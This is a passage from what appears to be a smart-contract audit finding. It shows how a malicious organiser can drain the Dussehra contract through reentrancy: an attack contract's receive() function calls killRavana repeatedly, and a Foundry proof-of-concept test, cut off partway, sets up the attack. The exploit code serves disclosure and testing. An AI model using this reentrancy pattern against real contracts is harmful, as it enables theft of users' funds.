 - `RamNFT::onlyOrganiser` is able to set the `ChoosingRam` contract and call `ChoosingRam::selectRamIfNotSelected`

The malicious user can call `OrganizerReenter::attack`
```js
function attack() public onlyOwner {
	choosingRam.selectRamIfNotSelected();
}
```
- The attack contract can call a very important function, `ChoosingRam::selectRamIfNotSelected`, as it will pass the `ramNFT.organiser() == msg.sender`  check

The actual attack occurs in the fallback function:
```js
 receive() external payable {
	while (address(dussehra).balance > 1 ether) {
		dussehra.killRavana();
	}
}
```
- At some point, the contract will receive ether from `Dussehra::killRavana` as we saw in the summary section
- Upon receiving ether, the attack contract will check if the `Dussehra` contract still has ether. 
	- If it does, the contract will call `Dussehra::killRavana` again
	- This loop will continue until the `Dussehra` contract has less than 1 ether

`Foundry Test` to set up attack:
```js
contract OrganizerReenterTest is Test {
    Dussehra public dussehra;
    RamNFT public ramNFT;
    ChoosingRam public choosingRam;
    OrganizerReenter attack;
    address public rug_organiser = makeAddr("organiser");

    uint256 public constant PICK_A_NUMBER = 5;
    address[] players = new address[](PICK_A_NUMBER);

    function setUp() public {
        // organizer deploys attack contract
        vm.startPrank(rug_organiser);
        attack = new OrganizerReenter();
        vm.stopPrank();
        
        // attack contract is used as "organizer"
        vm.startPrank(address(attack));
        ramNFT = new RamNFT();
        choosingRam = new ChoosingRam(address(ramNFT));
        dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));

        ramNFT.setChoosingRamContract(address(choosingRam));
        vm.stopPrank();  

        // enter the contract
        vm.deal(rug_organiser, 10 ether);
        vm.startPrank(rug_organiser);
        attack.setContracts(address(dussehra), address(choosingRam));
        dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
        vm.stopPrank();
    }

    modifier participants() {
        for (uint256 i =0; i< PICK_A_NUMBER; i++) {
            string memory stringNumber = vm.toString(i);
            players[i] = makeAddr(stringNumber);
            vm.deal(players[i], 1 ether);
```